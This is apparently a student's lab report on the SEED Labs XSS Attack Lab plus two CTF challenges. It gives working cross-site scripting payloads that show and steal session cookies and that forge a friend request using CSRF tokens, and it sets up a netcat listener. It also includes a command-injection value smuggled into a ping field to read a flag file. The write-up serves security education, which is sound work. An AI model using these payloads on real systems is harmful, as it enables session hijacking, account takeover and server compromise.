


# Trabalho realizado na semana #9

<br>

# SEED Labs - XSS Attack Lab

## Preparation

To prepare our systems for this lab, we followed the Environment Setup section of the guide:

1. Add the following entries to the `/etc/hosts` file of your VM.

    ```bash
        10.9.0.5 www.seed-server.com
        10.9.0.5 www.example32a.com
        10.9.0.5 www.example32b.com
        10.9.0.5 www.example32c.com
        10.9.0.5 www.example60.com
        10.9.0.5 www.example70.com
    ```

2. Launch the web server, using `dcbuild` and `dcup` in the `Labsetup` directory.
    - This will automatically create a mysql database instance.

<br>

## Task 1 : Posting a Malicious Message to Display an Alert Window

The goal of this task is to execute script inside a vulnerable HTML input field.

1. Log into the website.
    - We used the credencials `alice` and `seedalice` to log into the platform. These were given in the lab.

2. Prepare the payload.
    - We will use the payload 
  
        ```html
            <script>alert('XSS');</script>
        ```

     inside the `brief description` input field inside the `Edit Profile` page.

<figure>
    
    <figcaption><strong>Fig 1. </strong>Entering the payload in the input field</figcaption>
</figure>

3. Save the changes and head to the profile.
    - A modal will be displayed with the message we wront in the script code ('XSS').
  
<figure>
    
    <figcaption><strong>Fig 2. </strong>A modal displaying our XSS attack</figcaption>
</figure>

<br>

## Task 2 : Posting a Malicious Message to Display Cookies

The goal of this task is similar to the precious one, except on this one we will be displaying more private user information.

1. Prepare the payload.
    - We will use the payload 
  
        ```html
            <script>alert(document.cookie);</script>
        ```

     inside the `brief description` input field inside the `Edit Profile` page.

<figure>
    
    <figcaption><strong>Fig 3. </strong>Entering the payload in the input field</figcaption>
</figure>

2. Save the changes and head to the profile.
    - A modal will be displayed with the message we wront in the script code (in this case, the user's session cookies).
    - Having access to the cookies could possibly allow us to log into someone's account or track someone's online presence.
  
<figure>
    
    <figcaption><strong>Fig 4. </strong>A modal displaying our XSS attack</figcaption>
</figure>

<br>

## Task 3 : Stealing Cookies from the Victim’s Machine

In the previous task we displayed the document's cookies, which means a different user accessing Alice's profile would see their own cookies instead of Alice's. As anyone has access to their own cookies by default, this isn't very dangerous in a remote attack.
In this task, we will use `netcat` to listen to the server, allowing us to intercept Alice's cookies upon a server request.

<figure>
    
    <figcaption><strong>Fig 5. </strong>Alice's cookies</figcaption>
</figure>

<figure>
    
    <figcaption><strong>Fig 6. </strong>Boby's cookies</figcaption>
</figure>

Annalysing these two images, we can check how the printed cookies are different when accessing Alice's profile from different accounts.

1. Prepare the payload.
    - As described above, our goal is to listen to the cookies being sent through the server upon a request. This is only possible if the client uses a `GET` method. Therefore, we shall input a malicious image tag, as images are always fetched using the `GET`method.
  
    - We will use the payload 
  
        ```html
            <script>document.write('');
            </script>
        ```

     inside the `brief description` input field inside the `Edit Profile` page.

<figure>
    
    <figcaption><strong>Fig 7. </strong>Entering the payload in the input field</figcaption>
</figure>

1. Save the changes and head to the profile.
    - This time, no modal will be shown. Instead, an invalid photo will be displayed and a request will be sent to the server.

2. Listen to the response to our request.
    - In a console, we will run the command `nc -lknv 5555`. 
    - This is a `netcat` command with the flags 
      - `-l`, to listen to the connection, like a man in the middle; 
      - `-k`, to maintain the netcat alive after the connection ends;
      - `-n`, to not do a DNS lookup;
      - `-v`, for a verbose output;
      - and the port `5555`, where the server is being hosted by docker.
  
<figure>
    
    <figcaption><strong>Fig 8. </strong>Executing netcat on port 5555</figcaption>
</figure>

<figure>
    
    <figcaption><strong>Fig 9. </strong>Server sending the cookies</figcaption>
</figure>

4. Now we have access to another user's cookiesand session.

<br>

## Task 4 : Becoming the Victim’s Friend

Our goal for this task is to automatically add the victim user as our friend when they visit our profile.

1. Prepare the payload
    - The lab for this task gives us the following JavaScript skeleton:
        ```js
        <script type="text/javascript">
            window.onload = function () {
                var Ajax=null;

                var ts="&__elgg_ts="+elgg.security.token.__elgg_ts; #1
                var token="&__elgg_token="+elgg.security.token.__elgg_token; #2

                //Construct the HTTP request to add Samy as a friend.
                var sendurl= "http://www.seed-server.com/action/friends/add?friend=57&__elgg_ts"; //FILL IN

                //Create and send Ajax request to add friend
                Ajax=new XMLHttpRequest();
                Ajax.open("GET", sendurl, true);
                Ajax.send();
            }
        </script>
        ```

        Questions: 

      1. The line marked with #1 and #2 are used to store the logged in user's security tokens. We need these values in order to prove the request's authenticity.

      2. The editor mode writes HTML to the page. If we couldn't access the "Edit HTML" editor on the Edit Profile menu, we could still use the command `curl` in the console to execute a successful attack or use the browser's console and write JavaScript altering the innerHTML property in order to change any HTML value.

    - Using the "HTTP Header Live" add-on on Firefox, we can see that, when we go to Boby's profile and add him as a friend (we're logged in as Alice), the following HTTP request is sent to the server: `http://www.seed-server.com/action/friends/add?friend=57&__elgg_ts=1670412977&__elgg_token=sl0pVxZjMMt-vqH8EvQ4fw`

    <figure>
        
        <figcaption><strong>Fig 10. </strong>Adding Boby as a friend</figcaption>
    </figure>

   - Filling in the skeleton JavaScript with the correct link, using the variables given, we get the following payload:

        ```js
        <script type="text/javascript">
            window.onload = function () {
                var Ajax=null;

                var ts="&__elgg_ts="+elgg.security.token.__elgg_ts; 
                var token="&__elgg_token="+elgg.security.token.__elgg_token; 

                //Construct the HTTP request to add Samy as a friend.
                var sendurl= "http://www.seed-server.com/action/friends/add?friend=56" + ts + token;

                //Create and send Ajax request to add friend
                Ajax=new XMLHttpRequest();
                Ajax.open("GET", sendurl, true);
                Ajax.send();
            }
        </script>
        ```

2. Execute the attack
   - Add the payload to the "About Me" section in Alice's profile.
   - Log in as Boby and go to Alice's profile. You will be added as a friend without any alert being displayed.

  <figure>
      
      <figcaption><strong>Fig 10. </strong>Alice added as Boby's friend</figcaption>
  </figure>


# CTF

## CTF - Challenge 1

In this challenge, we are given webpage, with a simple text input, which we can submit and seems to be reflected in the following page:


Also, we've noticed that the page is constantly being refreshed, which means that the javascript is being re-rendered.

After seeing reflected user input in the website, our first thought was that maybe there was a lack of sanitization and we could inject javascript (XSS), so we tried to fill the input with `<script>alert("XSS")</script>`:


So, the website is in fact vulnerable to Cross-Site Scripting. Knowing that we can inject javascript, we can now click that disabled `Give The Flag` button, by using the payload:

```html
<script>document.getElementById('giveflag').click();</script>
```

If we wait a few seconds for the page to be refreshed and the "malicious html" rendered, we will get the flag.


## CTF - Challenge 2

In this challenge, we are given web-app that seems to be a router manufacturer's app.

### Step 1 - Analyze the app

If we analyze the app, we can see that there are 2 main areas:

The main/login page, in which we can try to login and maybe could lead to an user page.


And the speed test page, in which we can choose an host to ping and get a speed report.


### Step 2 - Test inputs

After testing the sanitization and safety of the fields, we found that there was no XSS, SQLi, SSTI, etc.

However, we found a weird output in the `ping a host` field:


The results were just like the ping command in bash, which led us to wonder if the user input was not being directly sent to a bash command in the server without or with little sanitization.

### Step 3 - Exploit

After finding this, we tried to inject a full bash command, to find the flag location and read the flag, with the payload `; find / -name "flag.txt" 2>/dev/null | xargs cat`.

This gave us the flag:

